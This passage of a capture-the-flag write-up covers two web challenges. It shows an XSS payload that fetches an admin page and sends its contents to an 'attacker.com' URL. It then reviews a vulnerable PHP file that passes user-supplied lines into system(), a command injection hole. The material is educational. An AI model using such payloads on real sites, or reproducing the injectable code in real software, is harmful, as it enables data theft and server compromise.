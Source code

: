 ##### Second successful payload:
```js
fetch('/administrator') 
	.then(response => response.text()) 
	.then(text => { fetch('https://attacker.com?flag=' + encodeURIComponent(text));
	});
```

Sending the payload to the admin, we got the response back from the admin bot with the extracted page content. We can then URL decode it to obtain the flag. 

![alt-text](https://i.imgur.com/n0SDmuM.png)

### Mad Lib - 300 points - Medium
The website for this challenge had an upload feature for txt files only.
There was also a source code, which enabled me to review the code and figure out the vulnerability here. It was a command injection but let's have it explianed little by little.
The challenge folder contained three files: generator.php, index.php and upload.php. 
When trying to upload a txt file, a request was made to upload.php and generator.php file wasn't triggered at all. Seeing its source code for a better understand.

##### generator.php

```php
<?php
function curl_get_contents($url){
	$hostname = parse_url($url)["host"];
	$headers = array( 
		"Host: $hostname",
		"Accept-Language: en-US,en;q=0.9",  
        	"Accept: */*;"
    	);
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL,$url);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
	curl_setopt($ch, CURLOPT_HEADER, false);
	curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
	curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/32.0.1700.107 Safari/537.36");
	curl_setopt($ch, CURLOPT_REFERER, $_SERVER[HTTP_HOST]);
	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
	curl_setopt($ch, CURLOPT_VERBOSE, false);
	$data = curl_exec($ch);
	curl_close($ch);
	print_r("Input: $data");
	return $data;
}

if (isset($_POST["fileLocation"])){
	$file_content = curl_get_contents($_POST['fileLocation']);
	$user_inputs = explode("\n", $file_content);
	if (count($user_inputs) < 5){
		echo "not enough for Mad Lib!";
	}
	else{
		echo "<h2>Here is your story!</h2>";
		system("echo Once upon a time, there lived a $user_inputs[0] named $user_inputs[1] who was $user_inputs[2]. This $user_inputs[0] loved $user_inputs[3] and $user_inputs[4] every day.");
	}
}
else{
	echo "Nothing to Mad Lib QAQ";
```